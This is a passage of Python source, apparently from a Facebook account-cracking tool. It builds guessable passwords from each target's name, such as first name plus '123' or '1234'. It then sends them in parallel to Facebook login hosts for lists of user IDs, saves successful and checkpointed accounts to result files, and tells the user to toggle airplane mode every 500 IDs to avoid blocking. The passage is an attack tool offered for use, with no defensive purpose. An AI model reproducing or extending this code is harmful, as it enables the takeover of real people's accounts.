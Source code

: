               self.__metode__(cebok, user, pasw) 
  
  
     def __pler__(self): 
         os.system('clear') 
         logo() 
         print (' Methode 3 in 1 ') 
         print ('[1] Method 1') 
         print ('[2] Method 2') 
         print ('[3] Method 3') 
         yan = input('\n%s[%s+%s] Select Method : '%(H,H,H)) 
         if yan == '': 
             print('\n %s[%s×%s] Sorry, it is wrong...!'%(N,M,N));self.__pler__() 
         elif yan in ('1', '01'): 
             xx = "free.facebook.com" 
             self.kombinasi_pw(xx) 
         elif yan in ('2', '02'): 
             xx = "mbasic.facebook.com" 
             self.kombinasi_pw(xx) 
         elif yan in ('3', '03'): 
             xx = "m.facebook.com" 
             self.kombinasi_pw(xx) 
         else: 
             print('\n %s[%s×%s] Sorry, it is wrong...!'%(N,M,N));self.__pler__() 
  
     def kombinasi_pw(self,url): 
         print('%s══════════════════════════════════════\n %sSetting Password Menu%s'%(H,H,H)) 
         print('%s[%s1%s] Password 1'%(H,H,H)) 
         print('%s[%s2%s] Password 2'%(H,H,H)) 
         pw = input(f"\n{H}[{H}+{H}] Select Password Method : ") 
         if pw in[""]: 
             print(f" {N}[{M}!{N}] Don't be empty");self.kombinasi_pw(url) 
         elif pw in["1","01"]: 
             print('%s══════════════════════════════════════\n[%s+%s] OK : results/OK-%s-%s-%s.txt'%(H,H,H,ha, op, ta)) 
             print('%s[%s+%s] CP : results/CP-%s-%s-%s.txt'%(H,H,H,ha, op, ta)) 
             print('%s══════════════════════════════════════\n[%s!%s] Use Airplane Mode If You No Result\n[%s!%s] Every 500 Id After Use Airplane Mode\n[%s!%s] To stop %sCTRL+c%s on keyboard\n══════════════════════════════════════'%(H,H,H,H,H,H,H,H,H)) 
             with YayanGanteng(max_workers=35) as kirim: 
                 for yntkts in self.id: 
                    try: 
                        uid, name = yntkts.split('|') 
                        xz = name.split(' ') 
                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6: 
                            pwx = [name, xz[0]+xz[1], xz[0]+"123",xz[0]+"1234"] 
                        else: 
                            pwx = [name, xz[0]+xz[1], xz[0]+"123",xz[0]+"1234"] 
                        kirim.submit(self.__metode__,url,uid,pwx) 
                    except:pass 
             hasil(ok,cp) 
         elif pw in["2","02"]: 
             print('%s═════════════════════════════════════\n[%s+%s] OK : results/OK-%s-%s-%s.txt'%(H,H,H,ha, op, ta)) 
             print('%s[%s+%s] CP : results/CP-%s-%s-%s.txt'%(H,H,H,ha, op, ta)) 
             print('%s══════════════════════════════════════\n[%s!%s] Use Airplane Mode If You Result\n[%s!%s] After 500 Id Crack Use Airplane Mode\n[%s!%s] To stop %sCTRL+c%s on keyboard\n═══════════════════════════════════════'%(H,H,H,H,H,H,H,H,H)) 
             with YayanGanteng(max_workers=35) as kirim: 
                 for yntkts in self.id: 
                    try: 
                        uid, name = yntkts.split('|') 
                        xz = name.split(' ') 
                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6: 
                            pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"12345", xz[0]+xz[1]] 